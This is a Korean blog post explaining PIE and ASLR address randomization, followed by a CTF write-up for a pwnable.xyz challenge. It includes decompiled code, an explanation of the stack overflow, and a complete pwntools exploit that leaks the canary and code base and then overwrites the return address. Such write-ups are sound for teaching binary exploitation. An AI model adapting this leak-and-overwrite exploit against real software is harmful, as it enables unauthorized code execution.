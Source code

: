 ```yaml
---
tistoryBlogName: k0n9
tistoryTitle: PIE
tistoryVisibility: "3"
tistoryCategory: "0"
tistorySkipModal: true
tistoryPostId: "31"
tistoryPostUrl: https://k0n9.tistory.com/31
---
```

위치독립실행, 바이너리 주소 랜덤화 즉 메모리상의 명렁어들의 위치가 매번 바뀐다. ASLR이 코드 영역에도 적용되게 해주는 기술이라고 볼 수 있다. 이때 ASLR이 0이면 PIE를 적용해도 주소랜덤화는 작동을 하지 않는다. ASLR이 1이면 PIE를 적용했을 때 전체 주소가 랜덤화된다. (2일때도 마찬가지)

#### 예
```C
#include <stdio.h>

int hello(){ 
	printf("hello"); 
	return 0; 
}

int x; 
int y = 10;

int main(){ 
int a; 
int *b = (int_)malloc(10);

printf("code : %p\n", hello); 
printf("Data : %p\n", &y); 
printf("BSS : %p\n", &x); 
printf("heap : %p\n", b); 
printf("stack : %p\n", &a); 
return 0; 
}
```

![](https://i.imgur.com/D5Qjkw3.png)

주소값이 계속 바뀌는것을 알 수 있다.

##### pie 우회기법 
pie를 우회하기 위해서는 오프셋을 구하고 코드 영역의 임의주소를 구하고 거기서 오프셋을 빼서 베이스 주소를 구해야 한다.

## tip

library 주소랜덤화가 되는 방법은 주소는 보통 libc base + offset으로 이루어져 있다. 그리고 offset은 바뀌지 않으며 libc base를 바꿈으로서 주소 랜덤화가 된다. 즉 offset 부분인 주소의 하위 1.5바이트 xxx 는 고정이고 libc base는 항상 하위 1.5바이트가 000으로 유지된다.

그리고 이 offset은 라이브러리 버전마다 다르기 때문에 이를 이용해서 라이브러리 버전을 찾을수도 있다. 

### 예제_pwnalbe.xyz

checksec
![](https://i.imgur.com/olHbWiZ.png)


main함수
```C
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  sub_CB8();
  puts("Yolo yada yada - Play with me!");
  puts("===========================================");
  sub_EAD();
  return 0LL;
}
```

```C
unsigned __int64 sub_EAD()
{
  size_t v0; // rax
  size_t v2; // rax
  char *s1; // [rsp+8h] [rbp-78h]
  char s[104]; // [rsp+10h] [rbp-70h] BYREF
  unsigned __int64 canary; // [rsp+78h] [rbp-8h]

  canary = __readfsqword(0x28u);
  while ( 1 )
  {
    s1 = (char *)sub_D48();
    memset(s, 0, 0x64uLL);
    printf("Your score: %d\n", qword_202248);
    printf("me  > %s\n", s1);
    printf("you > ");
    v0 = strlen(s1);
    read(0, s, v0 + 1);
    if ( !strncmp(s, "exit", 4uLL) )
      break;
    v2 = strlen(s1);
    if ( !strncmp(s1, s, v2) )
    {
      printf("You said: %s", s);
      puts("Yay, you're good at this, let's go on :)\n");
      ++qword_202248;
    }
    else
    {
      printf("You said: %s", s);
      puts("I don't think you understood how this game works :(\n");
      --qword_202248;
    }
    free(s1);
  }
  free(s1);
  puts("Ya go away, I don't want to play with you anymore anyways :P\n");
  return __readfsqword(0x28u) ^ canary;
}
```

flag를 출력하는 함수가 있다.
![](https://i.imgur.com/MLdX0TI.png)

해당 코드에서의 취약점은 s1의 크기는 랜덤한 값인데 s는 104로 고정되어있다. s1의 크기는 약 113 ~ 135 정도이다.  즉 buffer(104) + canary(8) + sfp(8) + ret(8) = 128 을 모두 덮을 충분한 크기라는 것이다. 우선 처음 입력으로 canary를 leak 하고 ret을 leak해서 code base를 구한다. 그리고 ret을 sub_D30() 으로 overwrite하고 exit를 하면 flag가 출력된다. 이때 s1이 충분한 크기여야 하기 때문에 약간의 브루트포싱이 필요하다.

```python
from pwn import *
  
# context.log_level = 'debug'
  
# p = process("./challenge")
p = remote("svc.pwnable.xyz",30027)
  
code_off = 0x1081
flag_off = 0xd34
  
p.recvuntil(b"me  > ")
me = p.recv(104)
  
p.sendlineafter(b"you > ", me)
p.recvuntil(b"\n")
canary = u64(b"\x00"+p.recv(7)) # canary
  
while(1):
    p.recvuntil(b"me  > ")
    me2 = p.recvuntil(b"\n")
    if(len(me2) >= 121):
        break
    p.sendlineafter(b"you > ", b'd')
  
me3 = b'a'*104 # buf
me3 += b'a'*0xf # canary + sfp
p.sendlineafter(b"you > ", me3)
p.recvuntil(b"\x61\n")
code_add = u64(p.recv(6)+b"\x00\x00") # ret
code_base = code_add - code_off
flag = code_base + flag_off
  
while(1):
    p.recvuntil(b"me  > ")
    me4 = p.recvuntil(b"\n")
    if(len(me4) >= 130):
        break
    p.sendlineafter(b"you > ", b'd')

  
me5 = b'exit'
me5 += b'a'*100
me5 += p64(canary)
me5 += b'a'*8
me5 += p64(flag)
  
 
p.sendafter(b"you > ", me5)
  
 
p.interactive()
```
exit라는 문자열을 받으면 종료하는데 exit이후에 추가적으로 문자열을 적어도 종료가 된다. 그래서 exit를 입력함과 동시에 ret overwrite를 한다.

![](https://i.imgur.com/wNYheP9.png)

